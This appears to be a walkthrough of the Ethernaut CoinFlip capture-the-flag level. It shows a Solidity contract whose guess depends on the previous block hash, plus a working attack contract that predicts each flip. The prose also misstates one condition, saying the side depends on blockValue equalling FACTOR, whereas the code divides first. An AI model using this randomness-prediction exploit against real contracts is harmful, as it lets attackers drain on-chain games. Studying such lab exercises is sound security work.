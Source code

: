 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel3.svg">

# Target Contract Review

Given conract.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0; 
      return false;
    }
  }
}
```

Challenge's message.
>This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

We have contract which can increase consecutiveWins with be flying blind. To be more precise, in the **_flip()_** function set a variable call **blockValue** help with keeping the hash of the previous block number as uint256. If lasthash doesn't equal to blockValue, lasthash will be blockValue's value. Afterwards, if blockValue equal to FACTOR which is defined in the start, side variable will be true. Other senarious, side variable will be false. Lastly, if our guess is same with side, consecutiveWins **will be increased**.

## Global Variables in Solidity

In solidity, there are some variables which can call from everyone. **_block.number_** is one of them. In this case, we can access to current block number of chain. Thus, we make always **correct guess**. More about [Global Variables](https://docs.soliditylang.org/en/v0.8.17/units-and-global-variables.html#special-variables-and-functions).

# Subverting

My attack contract.
```solidity
pragma solidity ^0.8.0;

import "./CoinFlip.sol";

contract Attack{

    CoinFlip coinflip;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _target){
        coinflip = CoinFlip(_target);
    }

    function flip() external{
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint flip = blockValue/FACTOR;
        bool choice  = flip == 1 ? true : false;
        coinflip.flip(choice);
    }

    function showWins() external view returns(uint){
        return coinflip.consecutiveWins();
    }
}
```
Firstly, get our target contract address. Then set blockValue and choice as in target contract. And then send our guess to flip() function in the target contract.
